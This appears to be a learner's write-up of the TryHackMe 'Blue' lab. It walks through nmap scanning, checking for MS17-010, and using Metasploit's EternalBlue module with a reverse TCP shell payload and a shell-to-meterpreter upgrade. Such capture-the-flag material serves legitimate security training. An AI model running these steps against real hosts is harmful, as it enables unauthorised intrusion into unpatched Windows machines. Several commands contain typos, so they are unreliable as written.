

# TryHackMe:Blue

Rememeber when looking at the notes IP stands for whatever the target or attacking machine is. 
To connect through VPN first donwload the file from tryhackme.  
next open your terminal and enter the command sudo openvpn followed by your the file name made

to make sure its working ping the IP provided by tryhackme

# Recon
run some nmap scans to gain information about the machine
nmap -sS -Pn -A -p- -T5 $ip  

you'll notice there are 3 ports open undre 1000

to find out what the machine is vulnerable to (if the form of ms)  run the command below
nmap -Ss -Pn -p 445 $ip --script smb-vuln-ms17-010.nse

# Access
run the msfconsole command to start metasploit 
next run search ms17-010

you can see its the first one so enter 
exploit/windows/smb/ms17_010_eternalblue as your answer

Show options and set the one required value. What is the name of this value? (All caps for submission)
use the options command use 0 next to get into the first exploit than run options afterwords

the asnwer is RHOSTS as you can see below

Set the rehost to the IP for the machine see example

normaly youd be okay to run but for the sake of learning more enter the following command and enter set payload windows/x64/shell/reverse_tcp
after that's done go head and run it 

Confirm that the exploit has run correctly. You may have to press enter for the DOS shell to appear. Background this shell (CTRL + Z). If this failed, you may have to reboot the target VM. Try running it again before a reboot of the target.

make sure your local host is set right to that is found ip a.  use your ip address with the command set lhost ip to set it. 
run the run command again and wait this can take some time.  When it's finished you should run the whoami command and see this below

# Escalate

Now we background our current shell (Ctrl+Z) and convert our shell to a meterpreter shell.

msf6 > search shell_to_meterpreter
msf6 > use 0
We show options for the current selected exploit. We set LHOST and SESSION.

set LHOST <ip>
set SESSION <session-no.>

